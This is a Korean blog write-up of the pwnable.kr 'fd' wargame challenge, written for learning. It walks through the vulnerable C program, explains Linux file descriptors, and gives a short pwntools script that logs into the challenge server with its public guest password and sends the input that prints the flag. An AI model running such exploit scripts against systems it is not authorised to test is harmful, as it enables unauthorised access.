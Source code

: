 ```yaml
---
layout: post
title: pwnable.kr | FD
subtitle: FD 문제 풀이
categories: pwnable.kr
tags: [Pwnable, pwnable.kr, Pentest]
---
```


**본 문제는 pwnable.kr를 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://pwnable.kr/play.php">pwnable.kr</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/178695660-0a014bc2-aa84-491e-bb99-3f3f7d3ac3bf.png" width = 400>
</p>

**FD**를 클릭하시면 아래와 같이 나올텐데 리눅스 환경에서는 `ssh fd@pwnabler.kr -p 2222`로 접속하고 패스워드는 **guest**로 접속하시면 됩니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179387122-edf97741-8f33-4c74-9659-4e170ccfb462.png">
</p>

* 접속하면 위와 같은 내용이 나올 겁니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179387172-e0cce2c7-6a3b-4d97-af79-3da6300ffe2f.png" width = 420>
</p>

* flag를 보면 읽을 권한이 없다. **fd.c** 파일을 분석해보고, ROOT 권한을 탈취하여 flag를 읽어야 할 것으로 예상된다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;
}
```

fd.c 파일의 내용이다. 프로그램을 실행할 때 인자가 있어야 본 루팅을 이행 할 것이다.

* 우리의 인자가 사용되는 부분은 `int fd = atoi( argv[1] ) - 0x1234;` , `len = read(fd, buf, 32);`이 두 부분이다.

* 그리고 우리가 읽어야 할 flag를 실행해주는 코드는 `if(!strcmp("LETMEWIN\n", buf)`에 있다.

우선 **read()**는 인자가 사용되는 fd가 들어므로 read()함수를 알아보자.

```C
#include <unistd.h>

ssize_t read(int fd, void *buf, size_t nbytes);
```

**read()**함수의 원형이다.

* **int fd**
  * 읽을 파일의 파일 디스크립터

* __void *buf__
  * 읽어드린 데이터를 저장할 버퍼

* __size_t nbytes__
  * 읽어들일 데이터의 최대 길이 (buf의 길이보다 길어선 안됨)

번호  | 설명 | 파일스트림 |
:---: | :---:| :----------:|
0    | 표준 입력 |  stdin
1    | 표준 출력 |  stdout
2    | 표준 에러 |  stderr

우리가 buf에 LETMEWIN이라는 값을 넣기 위해서는 **read()**가 **표준 입력**이 되어야 하므로 `int fd = atoi( argv[1] ) - 0x1234;`에서 fd가 0이 되야 한다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179387791-b3cbaa66-847e-46e4-ae48-278c9ffadd1d.png" width = 350>
</p>

```Python
from pwn import *
p = ssh("fd","pwnable.kr",2222,"guest")
path = "/home/fd/fd"
argv = "4660"
payload = [path,argv]
s = p.run(payload)
s.sendline('LETMEWIN')
s.interactive()
```
* 위 코드처럼 Pwntools을 이용해서도 값을 전송할 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179391379-b5f1f116-29b7-4b4b-b5a8-efaa64d7ee90.png" width = 350>
</p>

* 0x1234를 10진수로 변환하면 **4660**이란 숫자가 나온다. `./fd 4660`으로 실행해보면 flag 값이 나온다. 이렇게 파일 디스크립터를 알아봤다 !


